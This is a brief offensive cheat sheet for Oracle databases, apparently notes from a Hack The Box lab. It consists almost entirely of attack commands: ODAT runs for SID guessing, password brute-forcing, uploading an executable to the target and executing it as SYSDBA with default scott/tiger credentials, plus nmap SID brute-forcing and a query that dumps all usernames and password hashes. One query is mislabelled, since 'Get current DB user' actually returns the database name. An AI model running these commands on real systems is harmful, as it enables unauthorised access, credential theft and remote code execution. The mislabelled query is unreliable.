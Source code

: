 # Tools
##  [Oracle Database Attack Tool (ODAT)](https://github.com/quentinhardy/odat)
```
All checks:
./odat.py all -s 10.10.10.82 -p 1521
./odat.py all -s 10.10.10.82 -d XE -U scott -P tiger


Gusss SID: 
./odat.py sidguesser -s 10.10.10.82

Guess passwords:
./odat.py passwordguesser -d XE -s 10.10.10.82 -p 1521 --accounts-file /root/HTB/tools/db/odat/accounts/accounts.txt

Guess login: 
use admin/oracle/oracle_login

Upload file:
./odat.py utlfile -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --putFile c:/ writeup.exe ~/HTB/silo/writeup.exe
./odat.py dbmsxslprocessor -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "File-Test.txt" "/tmp/File-Test.txt"

Execute file:
./odat.py externaltable -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --exec c:/ writeup.exe
```

## Nmap
```
nmap --script oracle-sid-brute (TARGET IP ADDRESS) -p 1521
```

## oscanner
Obtain valid schema 
```
oscanner -s (TARGET IP ADDRESS)
```

## Queries 

- Get all usernames and password: `SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`
- DB Version: `SELECT * FROM V$VERSION`
- List all tables owned by user: `SELECT table_name FROM user_tables;`
- Get current DB user: `SELECT NAME FROM v$database;`


